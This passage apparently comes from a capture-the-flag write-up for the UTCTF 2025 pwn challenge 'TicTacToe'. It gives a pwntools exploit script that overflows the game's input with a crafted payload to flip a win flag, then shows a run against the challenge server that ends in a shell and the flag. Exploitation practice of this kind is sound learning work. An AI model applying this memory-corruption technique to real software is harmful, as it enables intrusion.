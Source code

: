 ```py
def table(table: list):
    return b''.join(p32(x) for x in table)

def exploit():

    p.sendlineafter(b'o: ', b'x')

    p.sendlineafter(b' spot: ', b'2')

    p.sendlineafter(b' spot: ', b'7')

    payload = flat({
        0: b'4',
        0xd - 5: b' ox',
        0x10 - 5: table([2, 2, 2, 0, 2, 0, 2]),
        # 0x10 - 5: table([0] * 7),
        0x48 - 5: b'\x01'               # win codition
    }, filler=b'\0')

    print(payload)
    p.sendlineafter(b' spot: ', payload)

    p.sendlineafter(b' spot: ', b'9')

    p.interactive()

if __name__ == "__main__":
    exploit()
```

### Get flag

```sh
┌─ [23:38] ❄ alter in ~/CTFs/2025/UTCTF/pwn/TicTacToe
└ ϟ ./xpl.py REMOTE challenge.utctf.live 7114
[+] Opening connection to challenge.utctf.live on port 7114: Done
b'4\x00\x00\x00\x00\x00\x00\x00 ox\x02\x00\x00\x00\x02\x00\x00\x00\x02\x00\x00\x00\x00\x00\x00\x00\x02\x00\x00\x00\x00\x00\x00\x00\x02\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x01'
[*] Switching to interactive mode
Current board state:
xxx
xxo
x x
Current board state:
xxx
xxo
xox
Player wins
$ cat flag*
utflag{!pr0_g4m3r_4l3rt!}
```
## RETirement Plan
